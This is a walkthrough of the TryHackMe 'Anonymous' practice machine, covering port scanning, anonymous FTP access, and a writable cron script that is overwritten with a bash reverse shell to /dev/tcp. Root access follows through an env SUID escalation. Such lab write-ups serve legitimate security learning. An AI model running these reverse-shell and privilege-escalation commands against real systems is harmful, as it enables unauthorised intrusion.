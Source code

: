 ```yaml
---
title: Anonymous - TryHackMe
date: 2020/08/13
categories:
  - [pentesting, writeups]
---
```


Hello there! Today I am going to walk you through the Anonymous machine on [TryHackMe](https://tryhackme.com/room/anonymous).

Let’s first (as always) export the IP to a global variable, for easier reference later on. So when ever you see \$IP I am talking about the machines IP.

```bash
export IP={Machine IP}
```

![test](flag3.png)
![test](flag4.png)

## Enumeration

Let’s get started with an nmap scan:

```plain
nmap -T4 -A -p- $IP
```

Those are the results:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 13:27 EDT
Nmap scan report for 10.10.115.205
Host is up (0.096s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.25.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/9%OT=21%CT=1%CU=35520%PV=Y%DS=2%DC=T%G=Y%TM=5F303224
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11N
OS:W6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2s, deviation: 1s, median: -2s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-08-09T17:27:57+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-08-09T17:27:57
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   41.06 ms  10.9.0.1
2   114.16 ms 10.10.115.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.36 seconds
```

We can already see that there are three interesting services running. SMB, FTP and SSH. I chose to have a look at SMB first and then work my way up.<br/>In the scan results we can see that guest login is allowed, so let’s make use of that.

First I used SMBMap to see what share we could access:

```plain
root@hades      :~# smbmap $IP
[+] Guest session       IP: 10.10.115.205:445   Name: 10.10.115.205
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    print$                                              NO ACCESS   Printer Drivers
    pics                                                READ ONLY   My SMB Share Directory for Pics
    IPC$                                                NO ACCESS   IPC Service (anonymous server (Samba, Ubuntu))
```

The “pics” share seems interesting, but apparently this was a rabbit hole, there were literally just a few pictures on there.

So let’s move on to the next port. It is an FTP server with anonymous login enabled (always look closely at you scan results). I just logged in with the command line, like this:

```plain
root@hades      :~/ctf/thm/anonymous# ftp 10.10.115.205 21
Connected to 10.10.115.205.
220 NamelessOne's FTP Server!
Name (10.10.115.205:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

As the password I entered nothing and just pressed enter. We can move around the FTP server just like on a Linux machine and after looking around for a bit, I found three files:

```plain
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1763 Aug 09 17:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```

You can easily download them with “get” and then the file name (get [‘File name’]).

## Gaining Access

Only the bash script really is interesting for us. The todo just says to remove the anonymous login and the log is being generated by the clean.sh script. The script itself deletes all files from the /tmp directory, when run. Potentially this is a cron job?<br/>A cron job is something you can set up on your Linux machine to do tasks e.g. daily, monthly etc.

So if we can override the script we can let it do whatever we want (Spoiler: we can).

Just create a shell scipt and insert some kind of shell. I used this simple reverse shell, just insert you own IP:

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your tun0 IP]/8080 0>&1
```

And upload it with “put” and then the file name of the local file.

Then set up a netcat listener on you machine:

```bash
nc -lnvp 8080
```

Now you just need to wait a few seconds and you should be able to see a shell pop up, where you set up the listener.

### User Flag

You can now just cat out the user flag, which is located at /home/anonymous/user.txt .

## Privilege Escalation

I followed my routine and downloaded LinPeas on the target machine.<br/>It found an “env” SUID, which if you look it up on [GTFOBins](https://gtfobins.github.io/gtfobins/env/) is easily exploitable. Just run this simple command:

```bash
env /bin/sh -p
```

And there you go, you have root.

### Root Flag

And again you can just cat out the root flag, which is located at /root/root.txt this time.

## The End

And there you have it! I hope you had fun, I know I did 🦄
